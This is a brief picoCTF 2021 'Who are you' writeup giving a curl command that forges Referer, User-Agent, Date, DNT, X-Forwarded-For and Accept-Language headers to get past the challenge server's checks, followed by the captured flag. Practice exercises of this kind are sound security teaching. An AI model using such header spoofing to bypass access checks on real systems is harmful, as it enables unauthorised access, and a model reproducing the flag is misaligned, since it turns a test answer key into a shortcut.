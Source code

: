 ## Resources

[writeup]([CTFtime.org / picoCTF 2021 / Who are you / Writeup](https://ctftime.org/writeup/26905))
[docs]([HTTP headers - HTTP | MDN (mozilla.org)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers))

## Payload

```bash
curl http://mercury.picoctf.net:38322/  \
    -H "Referer: http://mercury.picoctf.net:38322/" \
    -H "Date: Thu, 11 Aug 2018 15:23:13 GMT" \
    -H "User-Agent: PicoBrowser" \
    -H "DNT: 1" \
    -H "X-Forwarded-For: 105.17.176.0" \
    -H "Accept-Language: sv, sv-fi"
```

## Flag 

picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_b22d773c}